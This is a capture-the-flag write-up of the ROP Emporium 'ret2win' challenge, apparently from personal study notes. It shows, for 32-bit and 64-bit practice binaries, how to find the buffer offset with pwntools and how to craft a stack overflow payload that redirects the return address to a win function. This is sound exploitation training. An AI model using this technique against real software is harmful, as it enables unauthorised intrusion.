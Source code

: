 Links [[00 - Global Index (Start Here!)]] [[ROP Emporium]]

# [[ret2win]]
### Contents
***
- [Task Description](01%20-%20ret2win.md#Task%20Description)
- [32 bit](01%20-%20ret2win.md#32%20bit)
- [64 bit](01%20-%20ret2win.md#64%20bit)



### Task Description
---
Locate a method that you want to call within the binary.  
Call it by overwriting a saved return address on the stack.

### 32 bit
---
File checks:
32 bit ELF with no canaries
Checking function from within pwndbg.
Three of intrest; main, pwnme, ret2win

For the exploit all that is needed is the buffer size and the location of the ret2win function.

make a cyclic pattern.
```python
from pwn import *
g = cyclic_gen()
g.get(100)
```
Then use ```g.find()``` to get the buffer size of 44.
The ret2win function has a memory location of 0x804862c
little endian byte
```
\x2c\x86\x04\x08
```
Generate the payload
```bash
python2 -c 'print "A"*44+"\x2c\x86\x04\x08"' > payload.32bit
```
Run it against the binary. This works and gives out the flag.
```flag
ROPE{a_placeholder_32byte_flag!}
```

## 64 bit
***
File Checks
64bit ELF with no canaries
Same three function as the 32bit
Find the buffer size by adding 4 bytes to the RBP
which is 40 bytes
find the memory location of the ret2win functions.
0x400756
memory location needs to be 8 bytes
0x0000000000400756
convert to little endian
```bash

\x56\x07\x40\x00\x00\x00\x00\x00
```
Add the buffer and run the payload

---
Creation date: 08-10-2022
Last modified date: Sunday 8th October 2022
***
